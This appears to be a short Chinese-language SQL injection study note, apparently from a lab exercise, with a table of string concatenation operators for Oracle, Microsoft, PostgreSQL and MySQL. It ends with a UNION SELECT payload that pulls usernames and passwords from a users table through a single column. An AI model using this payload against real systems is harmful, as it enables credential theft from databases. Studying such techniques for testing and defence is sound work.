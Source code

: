 当只有一个列有返回值时，又想一次性查询多个数据可以尝试使用链接符

不同数据库链接符：

String concatenation

You can concatenate together multiple strings to make a single string.

| Oracle | 'foo'||'bar' |
| - | - |
| Microsoft | 'foo'+'bar' |
| PostgreSQL | 'foo'||'bar' |
| MySQL | 'foo' 'bar' [Note the space between the two strings]<br>CONCAT('foo','bar') |




payload:

```javascript
'union+select+null,username+||+'~'+||+password+from+users--+
```



![](images/32EE47CBC1284F779B59314689B13484clipboard.png)

